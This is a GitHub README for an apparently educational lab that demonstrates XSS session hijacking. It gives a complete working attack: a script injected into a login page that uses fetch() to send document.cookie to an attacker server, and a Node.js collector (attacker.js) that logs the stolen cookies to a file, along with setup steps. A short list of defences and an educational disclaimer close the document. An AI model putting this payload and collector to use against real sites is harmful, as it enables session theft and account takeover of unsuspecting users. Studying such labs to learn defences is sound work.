 # 🚀 XSS-Based Session Hijacking Attack (Automatic Cookie Theft)
This project demonstrates how an **XSS (Cross-Site Scripting) attack** can be used to **automatically steal a victim’s session cookie** as soon as they log in, allowing the attacker to hijack the session.

---

## 📌 Overview
### Components of the Attack:
✅ **A vulnerable login page (`index.html`)** where the victim logs in.  
✅ **A JavaScript-based XSS payload** that runs automatically when the victim logs in.  
✅ **An attacker server (`attacker.js`)** that captures and logs stolen session cookies.  
✅ **A Node.js backend (`server.js`)** running the web application.  

---

## 📌 How the Attack Works

### 1️⃣ **Step 1: Victim Logs In**
- The victim visits the vulnerable website:
http://localhost:3000

yaml
Copy
Edit
- They enter their **username & password** and click **Login**.

📌 **Screenshot:**  
![Victim Login](screenshots/ss1.png)

---

### 2️⃣ **Step 2: XSS Payload Executes Automatically**
- The victim does **not** see anything suspicious.
- In the background, the login page **automatically runs a hidden script** that sends their **session cookie** to the attacker’s server.

📌 **Screenshot:**  
![XSS Payload Executed](screenshots/ss2.png)

---

### 3️⃣ **Step 3: Attacker Receives the Stolen Cookie**
- The attacker's server (`attacker.js`) **logs the victim’s session cookie** immediately.
- The stolen cookie is also **saved to `stolen_cookies.txt`**.

📌 **Screenshot:**  
![Cookie Stolen](screenshots/ss3.png)

---

### 4️⃣ **Step 4: Attacker Uses the Stolen Cookie**
- The attacker injects the **stolen session cookie** into their browser using **EditThisCookie** or Developer Tools (`F12`).

📌 **Screenshot:**  
![Cookie Injected](screenshots/ss4.png)

---

### 5️⃣ **Step 5: Attacker Successfully Hijacks the Session**
- The attacker **refreshes the page** and is now logged in **as the victim without entering a password**.

📌 **Screenshot:**  
![Session Hijacked](screenshots/ss5.png)

---

## 📌 How to Run This Attack Locally

### 1️⃣ **Install Dependencies**
```sh
npm install express
###2️⃣ **Start the Vulnerable Web Server**

node server.js
The web app will start on:
http://localhost:3000

---

###3️⃣ **Start the Attacker’s Server**

node attacker.js

The attacker server will listen for stolen cookies at:
http://192.168.X.X:4000

---

### 📌 The XSS Payload (Auto Cookie Theft)
This script is injected into the vulnerable login page (index.html) so that when the victim logs in, their cookie is stolen automatically.

---

### 🔹 Inside index.html (before </body>)

<script>
document.getElementById("loginForm").addEventListener("submit", function() {
    fetch("http://192.168.64.2:4000/steal?cookie=" + document.cookie);
});
</script>
🔹 Replace 192.168.64.2 with your attacker's IP (run ip a to check).

### ✅ This ensures that every login automatically sends the session cookie to the attacker! 🎯

---

📌 Attacker’s Server (attacker.js)
This script captures and logs the stolen session cookies.

###🔹 Inside attacker.js

const express = require('express');
const fs = require('fs');
const app = express();

app.get('/steal', (req, res) => {
    const stolenCookie = req.query.cookie;

    if (stolenCookie) {
        console.log("🚨 Stolen Cookie:", stolenCookie);
        fs.appendFileSync('stolen_cookies.txt', `${new Date()} - ${stolenCookie}\n`);
        res.send('Cookie stolen and logged!');
    } else {
        res.send('No cookie received.');
    }
});

app.listen(4000, '0.0.0.0', () => {
    console.log('🚀 Attacker server running on http://0.0.0.0:4000');
});

---

#📌 How to Defend Against This Attack
To prevent XSS-based session hijacking:

1️⃣ Use HttpOnly cookies so JavaScript cannot access them.
2️⃣ Enable Secure and SameSite flags to limit exposure.
3️⃣ Sanitize all user input to block XSS injection.
4️⃣ Implement Content Security Policy (CSP) to block unauthorized scripts.
5️⃣ Use Multi-Factor Authentication (MFA) to protect accounts.

--------------------------------------------
```
#📌 CREDITS

💻 Developed by: Md Tanvir Rana(AG2409), Margarita Nyman(AG2668)

📅 Date: (2025-03-16)

🛡️ For educational and ethical hacking purposes only.

